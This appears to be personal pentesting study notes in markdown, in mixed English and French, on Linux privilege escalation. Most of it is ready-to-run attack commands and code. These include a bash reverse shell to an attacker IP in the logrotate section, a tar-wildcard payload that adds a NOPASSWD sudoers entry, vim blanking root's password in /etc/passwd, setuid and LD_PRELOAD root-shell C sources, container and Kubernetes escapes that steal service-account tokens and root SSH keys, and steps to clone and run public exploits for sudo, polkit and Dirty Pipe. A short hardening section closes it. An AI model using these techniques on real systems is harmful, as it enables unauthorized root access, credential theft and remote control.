



# Linux Privilege Escalations

## Information Gathering

###### Check  / Environnement enumeration

- OS Version
- Kernel Version
- Running Services

    ```bash
    whoami
    id
    hostname
    ifconfig | ip -a
    sudo -l
    cat /etc/os-release
    echo $PATH
    env
    uname -a
    lscpu
    cat /etc/shells
    cat /etc/passwd  | cut -f1 -d:
    /etc/shadow 
     cat /etc/group
    ```

- Security check
    ```bash
    Exec Shield
    iptables
    AppArmor
    SELinux
    Fail2ban
    Snort
    Uncomplicated Firewall (ufw)
    ```
-  enumerate information about block devices on the system (hard disks, USB drives, optical drives, etc.)
  ```bash  
  lsblk
  ```
- Check out the routing table by typing
- check the ARP cache to see what other hosts are being accessed and cross-reference these against any useable SSH private keys.
  -  `route` or `netstat -rn`, `arp -a`

- Bash version 4.1, are vulnerable to a shellshock exploit.
    ```bash
    grep "*sh$" /etc/passwd
    ```
-  use the getent command to list members of any interesting groups.
  ```bash
  getent group sudo
  ```

```bash
# Unmounted File Systems
 cat /etc/fstab | grep -v "#" | column -t
# All Hidden Files
find / -type f -name ".*" -exec ls -l {} \; 2>/dev/null | grep <Word>

# All Hidden Directories
find / -type d -name ".*" -ls 2>/dev/null

# Temporary Files
ls -l /tmp /var/tmp /dev/shm

# mounted file systems
df -h
```

###### Linux Services & Internals Enumeration

- What services and applications are installed?

- What services are running?

- What sockets are in use?

- What users, admins, and groups exist on the system?

- Who is current logged in? What users recently logged in?

- What password policies, if any, are enforced on the host?

- Is the host joined to an Active Directory domain?

- What types of interesting information can we find in history, log, and backup files

- Which files have been modified recently and how often? Are there any interesting patterns in file modification that could indicate a cron job in use that we may be able to hijack?

- Current IP addressing information

- Anything interesting in the /etc/hosts file?

- Are there any interesting network connections to other systems in the internal network or even outside the network?

- What tools are installed on the system that we may be able to take advantage of? (Netcat, Perl, Python, Ruby, Nmap, tcpdump, gcc, etc.)

- Can we access the bash_history file for any users and can we uncover any thing interesting from their recorded command line history such as passwords?

- Are any Cron jobs running on the system that we may be able to hijack?

```bash
# check internal network
ifconfig
cat /etc/hosts

# check log
lastlog

#Logged In Users
w

# Command History
history

# Finding History Files
find / -type f \( -name *_hist -o -name *_history \) -exec ls -l {} \; 2>/dev/null

# Cron
 ls -la /etc/cron.daily/

# The proc filesystem (proc / procfs) is a particular filesystem in Linux that contains information about system processes, hardware, and other system information.
 find /proc -name cmdline -exec cat {} \; 2>/dev/null | tr " " "\n"


#services

  # Installed Packages
  apt list --installed | tr "/" " " | cut -d" " -f1,3 | sed 's/[0-9]://g' | tee -a installed_pkgs.list

  # sudo version 
  sudo -V

  # Binaires
  ls -l /bin /usr/bin/ /usr/sbin/

  # GTFOBins
  for i in $(curl -s https://gtfobins.github.io/ | html2text | cut -d" " -f1 | sed '/^[[:space:]]*$/d');do if grep -q "$i" installed_pkgs.list;then echo "Check GTFO for: $i";fi;done

  # Trace System Calls
   strace ping -c1 <IP>

   # config files 
   find / -type f \( -name *.conf -o -name *.config \) -exec ls -l {} \; 2>/dev/null

   # scripts
   find / -type f -name "*.sh" 2>/dev/null | grep -v "src\|snap\|share"

   # Running Services by User
   ps aux | grep root
```

###### Credential Hunting
- When enumerating a system, it is important to note down any credentials. These may be found in configuration files (.conf, .config, .xml, etc.), shell scripts, a user's bash history file, backup (.bak)

```bash
find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null

# ssh keys
 ls ~/.ssh
```


## Environment-based Privilege Escalation

###### Path Abuse
- Adding . to a user's PATH adds their current working directory to the list. For example, if we can modify a user's path, we could replace a common binary such as ls with a malicious script such as a reverse shell. If we add . to the path by issuing the command PATH=.:$PATH and then export PATH, we will be able to run binaries located in our current working directory by just typing the name of the file (i.e. just typing ls will call the malicious script named ls in the current working directory instead of the binary located at /bin/ls).


```bash
echo $PATH
pwd && conncheck 

# POC 
PATH=.:${PATH}
export PATH
echo $PATH

# In this example, we modify the path to run a simple echo command when the command ls is typed.
touch ls
echo 'echo "PATH ABUSE!!"' > ls
chmod +x ls
ls
```


###### Wildcard Abuse

- A wildcard character can be used as a replacement for other characters and are interpreted by the shell before other actions. 

  - An example of how wildcards can be abused for privilege escalation is the tar command

  -  --checkpoint-action option permits an EXEC action to be executed when a checkpoint is reached

  - --checkpoint=1 and --checkpoint-action=exec=sh root.sh is passed to tar as command-line options.

  ```bash
  echo 'echo "cliff.moore ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh

  echo "" > "--checkpoint-action=exec=sh root.sh"

  echo "" > --checkpoint=1

  ls -la
  ```

###### Escaping Restricted Shells

- Restricted shell : `rbash, rksh, rzsh`

- Command injection : 
  ```bash
  ls -l `pwd`
  ```

- command substitution : This involves using the shell's command substitution syntax to execute a command. 

- In some cases, it may be possible to escape from a restricted shell by using command chaining.

- it may be possible to escape from a restricted shell by using shell functions

## Permissions-based Privilege Escalation

###### Special Permissions

- The Set User ID upon Execution (setuid) permission can allow a user to execute a program or script with the permissions of another user, typically with elevated privileges. The setuid bit appears as an s.

  ```bash
  # find vulnerable file 
  find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

  or 

  find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
  ```
  [Ressource link](https://linuxconfig.org/how-to-use-special-permissions-the-setuid-setgid-and-sticky-bits)

- use gtfoBins 

  ```bash
  sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh

  id
  ```


###### Sudo Rights Abuse

```bash
sudo -l

# exemple of tcpdump which use root priv without password
 sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root


```

###### Privileged Groups

- LXD is similar to Docker and is Ubuntu's container manager. Upon installation, all users are added to the LXD group. Membership of this group can be used to escalate privileges by creating an LXD container, making it privileged, and then accessing the host file system at /mnt/root. Let's confirm group membership and use these rights to escalate to root.

  ```bash
  # initilisation
  lxd init

  # Import the local image.
  lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine

  ```
- Start a privileged container with the security.privileged set to true to run the container without a UID mapping, making the root user in the container the same as the root user on the host.

  ```bash
  lxc init alpine r00t -c security.privileged=true

  # Mount the host file system.
  lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

  # spawn
  lxc start r00t
  lxc exec r00t /bin/sh
  ```

- Placing a user in the docker group is essentially equivalent to root level access to the file system without requiring a password. 

  ```bash
  docker run -v /root:/mnt -it ubuntu
  ```

- Users within the disk group have full access to any devices contained within <Path>

- Members of the adm group are able to read all logs stored in /var/log. This does not directly grant root access, but could be leveraged to gather sensitive data stored in log files or enumerate user actions and running cron jobs.

###### Capabilities
- Linux capabilities are a security feature in the Linux operating system that allows specific privileges to be granted to processes, allowing them to perform specific actions that would otherwise be restricted
- One common vulnerability is using capabilities to grant privileges to processes that are not adequately sandboxed or isolated from other processes, allowing us to escalate their privileges and gain access to sensitive information or perform unauthorized actions.
- Another potential vulnerability is the misuse or overuse of capabilities, which can result in processes having more privileges than they need
   
  - We could use the following command to set the cap_net_bind_service capability for an executable:
  ```bash
  sudo setcap cap_net_bind_service=+ep /usr/bin/vim.basic
  ```
  - the cap_net_bind_service capability is set for a binary, the binary will be able to bind to network ports, which is a privilege usually restricted.







-  To enumerate all existing capabilities for all existing binary executables on a Linux system, we can use the following command:

  ```bash
  find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
  ```

- If we gained access to the system with a low-privilege account, then discovered the dac_cap_override capability:

  ```bash
  getcap /usr/bin/vim.basic
  
  cat /etc/passwd | head -n1
  # We can use the cap_dac_override capability of the /usr/bin/vim binary to modify a system file:

  /usr/bin/vim.basic /etc/passwd


  # alternative
  echo -e ':%s/^root:[^:]*:/root::/\nwq' | /usr/bin/vim.basic -es /etc/passwd

  cat /etc/passwd | head -n1
  ```


**Ressources**
    [Hacktrick capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)
    [Linux capabilities doc](https://man7.org/linux/man-pages/man7/capabilities.7.html)


## Service-based Privilege Escalation

###### Vulnerable Services
- Many services may be found, which have flaws that can be leveraged to escalate privileges : ex => screen
- List services running on the laptop

 ```bash
 # exploit screen service :
  # get version
  screen -v
  # search exploit 
  # exploit

 ```

###### Cron Job Abuse

>Cron is a system that helps Linux users to schedule any task. However, a cron job is any defined task to run in a given time period. It can be a shell script or a simple bash command. Cron job helps us automate our routine tasks, it can be hourly, daily, monthly, etc.

- The crontab command can create a cron file, which will be run by the cron daemon on the schedule specified. When created, the cron file will be created in /var/spool/cron for the specific user that creates it. Each entry in the crontab file requires six items in the following order: minutes, hours, days, months, weeks, commands.

- The root crontab is almost always only editable by the root user or a user with full sudo privileges; however, it can still be abused. You may find a world-writable script that runs as root and, even if you cannot read the crontab to know the exact schedule, you may be able to ascertain how often it runs

- Certain applications create cron files in the /etc/cron.d directory and may be misconfigured to allow a non-root user to edit them.

```bash
# look around the system for any writeable files or directories. 
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null


#  run pspy and have a look.
#The -pf flag tells the tool to print
# commands and file system events and -i 1000 
# tells it to scan profcs every 1000ms
pspy64 -pf -i 1000

# analyse cron, understand the process and try to modify possible cron script
``` 

###### LXC : Linux Containers
- LXC fournit une virtualisation au niveau du système d'exploitation (OS-level virtualization). Il permet d'exécuter plusieurs conteneurs Linux isolés sur un seul noyau Linux partagé.

- We must be in either the lxc or lxd group. To find out, just tap : id

- We can either create our own container and transfer it to the target system or use an existing container.

```bash
# exploit example
lxc image import ubuntu-template.tar.xz --alias ubuntutemp
# verify the import 
lxc image list

# init the image
lxc init ubuntutemp privesc -c security.privileged=true

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```
- Once we have done that, we can start the container and log into it. In the container, we can then go to the path we specified to access the resource of the host system as root.
```bash
lxc start privesc
lxc exec privesc /bin/bash
ls -l /mnt/root
```

###### Docker

- What can happen is that we get access to an environment where we will find users who can manage docker containers.

-  With shared directories, specific directories or files on the host system can be made accessible within the container. 
```bash
# Docker Shared Directories
# in container console as root
# move to shared directory and copy of use files
```

- . By exposing the Docker socket over a network interface, we can remotely manage Docker hosts, issue commands, and control containers and other resources. 

```bash
# docker sockets

# in the container 

# fond docker.sock file
ls -al 
```

- we can use the docker to interact with the socket and enumerate what docker containers are already running. If not installed, then we can download it and upload it to the Docker container.

```bash
# in the container 

# 1 - download and upload docker 

# 2 - socket step 1 
/tmp/docker -H unix:///app/docker.sock ps


# our own docker : socket step 2 
/tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app

/tmp/docker -H unix:///app/docker.sock ps

# socket step 4 
/tmp/docker -H unix:///app/docker.sock exec -it <Step2containerID> /bin/bash
```
- To gain root privileges through Docker, the user we are logged in with must be in the docker group. This allows him to use and control the Docker daemon.
- Alternatively, Docker may have SUID set, or we are in the Sudoers file, which permits us to run docker as root. All three options allow us to work with Docker to escalate our privileges.
```bash
# list images
docker images ls

# when docker socket is writtable
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it <ImageName | ubuntu> chroot /mnt bash
```

###### Kubernetes
- The API server is the entry point for all the administrative commands, either from users via kubectl or from the controllers. This server communicates with etcd to fetch or update the cluster state.
- 
```bash
# try to curl kubernetes API server : port 6443 and try to access root
curl https://<IP>:6443 -k

# try to curl pods schedulers
curl https://<IP>:10250/pods -k | jq .
# alternative
kubeletctl -i --server <IP> pods

# scan 
kubeletctl -i --server <IP> scan rce

# run cmd
kubeletctl -i --server <IP> exec "id" -p nginx -c nginx
```

- To gain higher privileges and access the host system, we can utilize a tool called kubeletctl to obtain the Kubernetes service account's token and certificate (ca.crt) from the server. we must provide the server's IP address, namespace, and target pod. In case we get this token and certificate, we can elevate our privileges even more, move horizontally throughout the cluster, or gain access to additional pods and resources.
    ```bash
    # priv esc part 1


    # 1-  extract tokens
    kubeletctl -i --server <IP> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token

    # 2 - extract certificates
    kubeletctl --server <IP> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt

    # list priv
    export token=`cat k8.token`
    kubectl --token=$token --certificate-authority=ca.crt --server=https://<IP>:6443 auth can-i --list
    ```

    - create privesc.yaml file
    ```bash
    apiVersion: v1
    kind: Pod
    metadata:
      name: privesc
      namespace: default
    spec:
      containers:
      - name: privesc
        image: nginx:1.14.2
        volumeMounts:
        - mountPath: /root
          name: mount-root-into-mnt
      volumes:
      - name: mount-root-into-mnt
        hostPath:
           path: /
      automountServiceAccountToken: true
      hostNetwork: true
    ```
    - create on the target kubernetes
    ```bash
    # priv esc part 3 
    kubectl --token=$token --certificate-authority=ca.crt --server=https://<IP>:6443 apply -f privesc.yaml
    ```

    - If the pod is running we can execute the command and we could spawn a reverse shell or retrieve sensitive data like private SSH key from the root user.
    ```bash
    kubeletctl --server <IP> exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc
    ```


###### Logrotate
- To prevent the hard disk from overflowing, a tool called logrotate takes care of archiving or disposing of old logs.
- The logs in /var/log give administrators the information they need to determine the cause behind malfunctions.
- The function of the rotation itself consists in renaming the log files. For example, new log files can be created for each new day, and the older ones will be renamed automatically. Another example of this would be to empty the oldest log file and thus reduce memory consumption.
- This tool is usually started periodically via cron and controlled via the configuration file /etc/logrotate.conf. Within this file, it contains global settings that determine the function of logrotate.
- To force a new rotation on the same day, we can set the date after the individual log files in the status file /var/lib/logrotate.status or use the -f/--force option
```bash
# get info about process rotate
sudo cat /var/lib/logrotate.status
ls /etc/logrotate.d/

cat /etc/logrotate.d/dpkg
```

- To exploit logrotate, we need some requirements that we have to fulfill.

    - we need write permissions on the log files
    - logrotate must run as a privileged user or root
    vulnerable versions:
        - 3.8.6
        - 3.11.0
        - 3.15.0
        - 3.18.0
        - 
There is a prefabricated exploit that we can use for this if the requirements are met. This exploit is named [logrotten](https://github.com/whotwagner/logrotten). 
```bash
git clone https://github.com/whotwagner/logrotten.git
cd logrotten
gcc logrotten.c -o logrotten


# Determine which option logrotate uses in logrotate.conf
grep "create\|compress" /etc/logrotate.conf | grep -v "#"
# run rce
echo 'bash -i >& /dev/tcp/<AttaquantIP>/PORT 0>&1' > payload

# on attacking rce 
./logrotten -p ./payload /tmp/tmp.log
```
**Ressouces**
- [Logrotten](https://github.com/whotwagner/logrotten)


###### Miscellaneous Techniques
- Network File System (NFS) allows users to access shared files or directories over the network hosted on Unix/Linux systems. NFS uses TCP/UDP port 2049. Any accessible mounts can be listed remotely
```bash
# list mounts 
showmount -e <IP>
```
- create and mount binary
```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```
```bash
# compile 
 gcc shell.c -o shell
# mount 
sudo mount -t nfs <IP>:/<ShareName> /mnt
cp shell /mnt
chmod u+s /mnt/shell

# exploit
#run shell on target share
./shell
```
- Terminal multiplexers such as tmux can be used to allow multiple terminal sessions to be accessed within a single console session. When not working in a tmux window, we can detach from the session, still leaving it active

```bash
tmux -S /shareds new -s debugsess
chown root:<groupName | devs> /shareds
# check running tmux process
ps aux | grep tmux
# confirm permissions
ls -la /shareds 
# exploit by attaching session
tmux -S /shareds
```

## Linux Internals-based Privilege Escalation

###### Kernel Exploits
- A quick way to identify exploits is to issue the command uname -a and search Google for the kernel version.

```bash
# exploit

# search kernel version
uname -a
cat /etc/lsb-release 

# search exploit
# download it 
# run it with
gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit
./kernel_exploit

```

> Note: Kernel exploits can cause system instability so use caution when running these against a production system.


###### Shared Libraries
- It is common for Linux programs to use dynamically linked shared object libraries. Libraries contain compiled code or other data that developers use to avoid having to re-write the same pieces of code across multiple programs. Two types of libraries exist in Linux: static libraries (denoted by the .a file extension) and dynamically linked shared object libraries (denoted by the .so file extension). 

- There are multiple methods for specifying the location of dynamic libraries, so the system will know where to look for them on program execution. This includes the -rpath or -rpath-link flags when compiling a program, using the environmental variables LD_RUN_PATH or LD_LIBRARY_PATH, placing libraries in the /lib or /usr/lib default directories, or specifying another directory containing the libraries within the /etc/ld.so.conf configuration file.

- Additionally, the LD_PRELOAD environment variable can load a library before executing a binary. 


```bash
#  lists all the libraries required by /bin/ls
ldd /bin/ls

# LD_PRELOAD Privilege Escalation
sudo -l
```
- create and compile c file
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

```bash
# compile 
gcc -fPIC -shared -o root.so root.c -nostartfiles
```

###### Shared Object Hijacking
- We can use ldd to print the shared object required by a binary or shared object. Ldd displays the location of the object and the hexadecimal address where it is loaded into memory for each of a program's dependencies
    ```bash
    ldd <fileName>
    ```
- Inspect run path
    ```bash
    readelf -d <FileName>  | grep PATH
    ```
- create a shell root
    ```c
    #include<stdio.h>
    #include<stdlib.h>
    
    void dbquery() {
        printf("Malicious library loaded\n");
        setuid(0);
        system("/bin/sh -p");
    } 
    ```
- put in the runpath
    - ```bash
      gcc src.c -fPIC -shared -o < RunPath/objectName | /development/libshared.so>
      ```

###### Python Library Hijacking

There are three basic vulnerabilities where hijacking can be used:

  1.  Wrong write permissions
  2. Library Path
  3. PYTHONPATH environment variable

- Wrong permission
    1. Find file permissions
        ```bash
        # check files which have SUID ( read ) SGID ( write) permissions
        find . -perm /4000 | /2000 | /6000 
        ls -la
        ```
    2.  Read python source code 
    3.  Search vulnerable functions 
        ```bash
        grep -r "< functionName | def virtual_memory>" < FunctionLibraryInternPath | /usr/local/lib/python3.8/dist-packages/psutil/*>
        ``` 
    4. list vulnerable functions source file permissions
        ```bash
        ls -l <VulnerableFunctionSourceFilePath>
        ```
    5. Modify function by inserting a reverse shell to our main device

    <br/>

- Library Path
```bash
#1. show installation location of file
pip3 show <libName>
#2. find directory permissions
ls -la <DirName>
#3. find vulnerability
#4. create custom lib with rce to have root
#5. Run with sudo ( sudo DirPath pythonFIleName )
```

- PYTHONPATH Environment Variable
```bash
# see if we can use python with sudo
sudo -l
# set my own 
sudo PYTHONPATH=<Path | /tmp/ > <PythonPath | /usr/bin/python3> <LibFileName>
```


## Recent 0-Days

###### SUDO
- The /etc/sudoers file specifies which users or groups are allowed to run specific programs and with what privileges.
```bash
# find sudo version
sudo -V | head -n1

# find system version
cat /etc/lsb-release

sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'

# CVE-2021-3156
# 1.8.31 - Ubuntu 20.04
# 1.8.27 - Debian 10
# 1.9.2 - Fedora 33
# and others
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
make
./sudo-hax-me-a-sandwich
./sudo-hax-me-a-sandwich <VersionNumberProposed>


# CVE-2019-14287
#Prerequist : It had to allow a user in the /etc/sudoers file to execute a specific command.
cat /etc/passwd | grep <UserName>
sudo -u#-1 <CmdAllowed>
```

###### Polkit
- PolicyKit (polkit) is an authorization service on Linux-based operating systems that allows user software and system components to communicate with each other if the user software is authorized to do so. To check whether the user software is authorized for this instruction, polkit is asked. 

Polkit works with two groups of files.

1. actions/policies (/usr/share/polkit-1/actions)
2. rules (/usr/share/polkit-1/rules.d)

- Custom rules can be placed in the directory /etc/polkit-1/localauthority/50-local.d with the file extension .pkla.

- PolKit also comes with three additional programs:

1. pkexec - runs a program with the rights of another user or with root rights
2. pkaction - can be used to display actions
3. pkcheck - this can be used to check if a process is authorized for a specific action

```bash
# pkexec -u <user> <command>
# it uses  CVE-2021-4034
# find poc on github and use it 
```

###### Dirty Pipe
- CVE-2022-0847
- In simple terms, this vulnerability allows a user to write to arbitrary files as long as he has read access to these files. It is also interesting to note that Android phones are also affected.
```bash
# exploit 
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cd CVE-2022-0847-DirtyPipe-Exploits
bash compile.sh
```

- We will have 2 exploit 
    -  The first exploit version (exploit-1) modifies the /etc/passwd and gives us a prompt with root privileges.
    ```bash
    # verify kernel version
    uname -r
    # exploit 1 
    ./exploit-1
    ```
    - With the help of the 2nd exploit version (exploit-2), we can execute SUID binaries with root privileges. However, before we can do that, we first need to find these SUID binaries
    ```bash
    find / -perm -4000 2>/dev/null
    # Then we can choose a binary and specify the full path of the binary as an argument for the exploit and execute it.
    ./exploit-2 <binPath>
    ```
        
###### Netfilter
- Netfilter is a Linux kernel module that provides, among other things, packet filtering, network address translation, and other tools relevant to firewalls. It controls and regulates network traffic by manipulating individual packets based on their characteristics and rules. 
- When the module is activated, all IP packets are checked by the Netfilter before they are forwarded to the target application of the own or remote system. 
- `CVE-2021-22555 => Vulnerable kernel versions: 2.6 - 5.11`
-  `CVE-2022-1015`
-  `CVE-2023-32233` 
- ` CVE-2022-25636 => affects Linux kernel 5.4 through 5.6.10. ` => see Nick Gregory article
    - called anonymous sets in nf_tables by using the Use-After-Free vulnerability in the Linux Kernel up to version 6.3.1. These nf_tables are temprorary workspaces for processing batch requests and once the processing is done, these anonymous sets are supposed to be cleared out (Use-After-Free) so they cannot be used anymore.
- `CVE-2023-32233` 
- 
## Hardening Considerations ( durcissement )

-  Linux hardening can eliminate most, if not all, opportunities for local privilege escalation

- DO updates 
 

- Audit writable files and directories and any binaries set with the SUID bit.
- Ensure that any cron jobs and sudo privileges specify any binaries using the absolute path.
- Do not store credentials in cleartext in world-readable files.
- Clean up home directories and bash history.
- Ensure that low-privileged users cannot modify any custom libraries called by programs.
- Remove any unnecessary packages and services that potentially increase the attack surface.
- Consider implementing SELinux, which provides additional access controls on the system.

- We should limit the number of user accounts and admin accounts on each system, ensure that logon attempts (valid/invalid) are logged and monitored.

-  We should check that users are not placed into groups that give them excessive rights not needed for their day-to-day tasks and limit sudo rights based on the principle of least privilege.
- Templates exist for configuration management automation tools such as Puppet, SaltStack, Zabbix and Nagios to automate such checks and can be used to push messages to a Slack channel or email box as well as via other methods. Remote actions (Zabbix) and Remediation Actions (Nagios) can be used to find and auto correct these issues over a fleet of nodes. Tools such as Zabbix also feature functions such as checksum verification, which can be used for both version control and to confirm sensitive binaries have not been tampered with.
- Perform periodic security and configuration checks of all systems. There are several security baselines such as the DISA 
-  ISO27001, PCI-DSS, and HIPAA which can be used by an organization to help establish security baselines. 
- Pentest
- box-checking
- use Lynis tool ( github )
## Ressources

- [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

- [LinEnum](https://github.com/rebootuser/LinEnum)
- [GTFOBIN](https://gtfobins.github.io/)